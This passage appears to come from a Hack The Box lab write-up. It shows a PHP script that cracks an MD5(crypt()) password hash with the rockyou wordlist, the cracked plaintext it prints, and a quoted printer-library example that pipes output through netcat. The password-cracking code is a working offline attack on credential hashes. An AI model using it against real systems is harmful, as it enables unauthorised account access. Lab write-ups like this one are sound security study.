 ```text
$password = md5(crypt($password,'fa'));
```

wrote a script to crack the password using: [https://stackoverflow.com/questions/13246597/how-to-read-a-large-file-line-by-line](https://stackoverflow.com/questions/13246597/how-to-read-a-large-file-line-by-line)

```php
<?php
if ($wordlist = fopen("/home/zweilos/rockyou_utf8.txt", "r")) {
    while ((!feof($wordlist))) {
    $pass = fgets($wordlist);
#    echo "Trying: " . $pass;

    $hash = "e626d51f8fbfd1124fdea88396c35d05";

        $ciphertext = MD5(crypt(trim($pass),'fa'));

        if ($hash == $ciphertext) {
          exit("The password is: " . $pass);
        }  
    }

    fclose($wordlist);

} else {
    exit("Failed to open the wordlist");
}
?>
```

then I ran it and didn't have to wait long

```text
zweilos@kali:~/htb/quick$ php decrypt.php
The password is: yl51pbx
```

from github - [https://github.com/mike42/escpos-php](https://github.com/mike42/escpos-php)

```text
Some examples are below for common interfaces.

Communicate with a printer with an Ethernet interface using netcat:

php hello-world.php | nc 10.x.x.x. 9100
```
